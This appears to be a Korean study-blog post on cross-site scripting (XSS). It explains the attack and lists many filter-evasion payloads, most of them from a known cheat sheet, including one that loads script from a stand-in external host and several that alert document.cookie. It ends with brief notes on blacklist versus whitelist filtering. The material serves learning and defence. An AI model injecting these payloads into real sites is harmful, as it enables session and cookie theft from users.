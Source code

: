 ```yaml
---
layout: post
title: "7. XSS"
date: 2017-12-08 14:05
categories: web_study
---
```

## XSS란

XSS(Cross-SIte Scripting)은 일종의 Injection공격이며, 사이트에 악의적인 코드를 심는다. 이 악의적인 코드는 일반적으로 브라우저 자바스크립트로 실행된다. 이러한 공격은 사이트의 입력 폼에서 입력을 받고, 입력값에 대해 아무런 검증없이 출력할때 발생한다.

공격자는 사이트에 코드를 삽입하고, 사용자들의 브라우저는 신뢰하는 사이트에서 나온 코드이기 때문에 문제없이 스크립트를 실행한다. 그렇기에, 이 악의적인 코드는 모든 쿠키와 세션토큰과 같은 민감한 정보에 접근할 수 있다.

### XSS 스크립트

지피지기면 백전백승

먼저 공격자가 어떤 스크립트를 사이트에 인젝션 하는지 알아보자.

### script

가장 기본적인 필터가 없을 경우

`<script src=http://hac.king/xss.js></script>` 형식으로 XSS공격이 가능하다.

이미지 태그를 이용한 XSS

`<img src="javascript:alert('hacking');">`

따옴표가 없고 세미콜론이 없는 XSS

`<IMG SRC=javascript:alert('hello,world!')>`

대소문자에 민감하지않은 XSS

`<IMG SRC=JaVaScRiPt:alert('hello,world!')>`

`<IMG SRC=javascript:alert(&quot;hello,world!&quot;)>`

`<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>`

`<IMG """><SCRIPT>alert("hello,world!")</SCRIPT>">`

`<IMG SRC=javascript:alert(String.fromCharCode(97,108,101,114,116,40,39,104,101,108,108,111,44,119,111,114,108,100,33,39,41,59))>`

`<IMG SRC=# onmouseover="alert('hello,world!')">`

`<IMG SRC= onmouseover="alert('hello,world!')">`

`<IMG onmouseover="alert('hello,world!')">`

`<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>`

`<IMG SRC="jav	ascript:alert('hello,world!');">`

`<IMG SRC="jav&#x09;ascript:alert('hello,world!');">`

`<IMG SRC="jav&#x0A;ascript:alert('hello,world!');">`

`<IMG SRC="jav&#x0D;ascript:alert('hello,world!');">`

`<a onclick="alert(document.cookie)">hello,world!</a>`

`<a ondblclick="alert(document.cookie)">hello,world!</a>`

`<a onmousedown="alert(document.cookie)">hello,world!</a>`

`<a onmousemove="alert(document.cookie)">hello,world!</a>`

`<a onmouseover="alert(document.cookie)">hello,world!</a>`

`<a onmouseup="alert(document.cookie)">hello,world!</a>`

`<a onwheel="alert(document.cookie)">hello,world!</a>`

`<a oncopy="alert(document.cookie)">hello,world!</a>`
`<a oncut="alert(document.cookie)">hello,world!</a>`
`<a onpaste="alert(document.cookie)">hello,world!</a>`

`<body onload="alert(document.cookie)">`

`<body onerror="alert(document.cookie)">`

`<body onresize="alert(document.cookie)">`

`<body onunload="alert(document.cookie)">`

블랙 리스트로
`<script>alert</script>`를 사용
`a href=javascript:alert(1) /a` 이 가장 기본적인 방법이지만 너무 기본적이라 막는경우있음

화이트 리스트 방법이 가장 확실
블랙리스트 기법의 경우에는 실수로 필터링 못했을 경우 뚫릴 수 있기 때문에 권장 X

script안쓰는방법
img src에 존재하지않는 이미지 경로를 넣어 에러를 일으킨 후 onerror이벤트에 자바스크립트코드 삽입
